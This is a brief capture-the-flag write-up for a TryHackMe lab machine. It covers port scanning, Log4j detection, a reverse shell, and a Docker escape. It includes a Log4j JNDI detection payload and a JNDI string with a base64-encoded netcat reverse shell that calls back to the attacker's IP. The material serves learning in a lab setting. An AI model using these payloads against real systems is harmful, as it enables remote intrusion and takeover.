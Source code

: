 >## THM LumberjackTurtle
## IP:10.10.204.88

# Enumeration

## Nmap

```
PORT   STATE SERVICE     VERSION
22/tcp open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
|_  256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
80/tcp open  nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

```

We see that we have 2 open ports 

80, 22


## Port 80

![1](https://user-images.githubusercontent.com/74853138/150634332-c034f5c8-9c3b-4fb6-b07a-8c8fa109d603.png)

Error

![2](https://user-images.githubusercontent.com/74853138/150634347-658e7c6d-9f1e-40d0-aa53-31198ae2396c.png)

## Log4j Detection
we will use this as payload

```
 ${jndi:ldap://10.18.0.53:4444}

```

![3](https://user-images.githubusercontent.com/74853138/150634483-325aeda2-6e82-4131-b6f5-2d5a8debee58.png)


so we have here a log4j vulnerabilty 

let's try get shell

## Shell


```
${jndi:ldap://$IP:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjE4LjAuNTMgNDQ0NCAgPi90bXAvZg==}

```


![4](https://user-images.githubusercontent.com/74853138/150634610-db5937f9-f139-41ce-94dc-29bc593582c9.png)


## User Flag.

```
user flag found in /opt/.flag1

```

## Docker escape and privilege.

```
we will mount dev/xvda in tmp 


Fun flag 
```
![5](https://user-images.githubusercontent.com/74853138/150634756-51c4c93a-d858-49ed-ab5f-6e79a4689a9d.png)

Let's try find the real flag

![6](https://user-images.githubusercontent.com/74853138/150634788-593858ac-a38d-4de6-8810-07996f067ace.png)

and voila got real root flag

![7](https://user-images.githubusercontent.com/74853138/150634802-98d3afcc-c14b-4653-a393-4e8edd3b40e7.png)

## Thanks for watching.
